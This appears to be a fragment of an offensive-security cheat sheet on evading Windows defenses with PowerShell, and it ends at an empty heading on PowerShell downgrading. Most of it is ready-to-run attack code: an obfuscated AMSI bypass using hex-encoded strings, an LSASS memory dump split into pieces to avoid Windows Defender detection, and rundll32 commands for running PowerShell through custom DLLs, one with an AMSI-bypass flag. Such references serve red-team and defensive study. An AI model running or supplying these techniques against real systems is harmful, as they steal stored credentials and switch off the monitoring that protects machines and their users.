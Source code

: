 ```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```



#### LSASS Dumping without triggering Windows Defender
```powershell
$S = "C:\temp"
$P = (Get-Process lsass)
$A = [PSObject].Assembly.GetType('Syst'+'em.Manage'+'ment.Autom'+'ation.Windo'+'wsErrorRe'+'porting')
$B = $A.GetNestedType('Nativ'+'eMethods', 'Non'+'Public')
$C = [Reflection.BindingFlags] 'NonPublic, Static'
$D = $B.GetMethod('MiniDum'+'pWriteDump', $C) 
$PF = "$($P.Name)_$($P.Id).dmp"
$PDP = Join-Path $S $PF
$F = New-Object IO.FileStream($PDP, [IO.FileMode]::Create)
$R = $D.Invoke($null, @($P.Handle,$G,$F.SafeFileHandle,[UInt32] 2,[IntPtr]::Zero,[IntPtr]::Zero,[IntPtr]::Zero))
$F.Close()
```

Use your own Powershell DLL: [p3nt4/PowerShdll](https://github.com/p3nt4/PowerShdll) & [iomoath/PowerShx](https://github.com/iomoath/PowerShx) - with rundll32
```powershell 
rundll32 PowerShx.dll,main <script>
rundll32 PowerShx.dll,main -h # Display this message
rundll32 PowerShx.dll,main -f <path> # Run the script passed as argument
rundll32 PowerShx.dll,main -w # Start an interactive console in a new window (Default)
rundll32 PowerShdll,main -i # Start an interactive console in this console

rundll32 PowerShx.dll,main -e <PS script to run>
rundll32 PowerShx.dll,main -f <path> # Run the script passed as argument
rundll32 PowerShx.dll,main -f <path> -c <PS Cmdlet> # Load a script and run a PS cmdlet
rundll32 PowerShx.dll,main -w # Start an interactive console in a new window
rundll32 PowerShx.dll,main -i # Start an interactive console
rundll32 PowerShx.dll,main -s # Attempt to bypass AMSI
rundll32 PowerShx.dll,main -v # Print Execution Output to the console
```
[InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/windows-download-execute/#rundll32)
#### Elevated Required

Turning off Windows Defender
```powershell
# Requires Elevation
Get-MpPreference | Select-Object -Property ExclusionPath
```

#### PowerShell downgrading
